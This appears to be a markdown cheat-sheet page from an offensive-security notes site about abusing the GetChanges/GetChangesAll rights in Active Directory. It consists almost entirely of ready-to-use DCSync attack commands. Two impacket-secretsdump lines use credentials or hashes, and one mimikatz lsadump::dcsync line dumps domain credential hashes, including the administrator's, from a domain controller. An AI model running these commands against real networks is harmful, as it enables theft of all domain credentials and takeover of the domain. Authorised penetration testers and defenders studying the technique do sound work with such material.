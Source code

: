 ```yaml
---
title: "GetChanges/GetChangesAll"
date: 2024-7-9
tags: ["GetChanges", "GetChangesAll", "dcsync", "secretsdump", "active driectory", "ad", "Windows"]
---
```


#### Abuse #1: DCSync Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# With creds
impacket-secretsdump -just-dc '<USER>:<PASSWORD>@<TARGET>'
```

```console
# With hashes
impacket-secretsdump -hashes <HASH> -just-dc '<DOMAIN>/<USER>@<TARGET>'
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
.\mimikatz.exe 'lsadump::dcsync /domain:<DOMAIN> /user:administrator' exit
```

{{< /tabcontent >}}
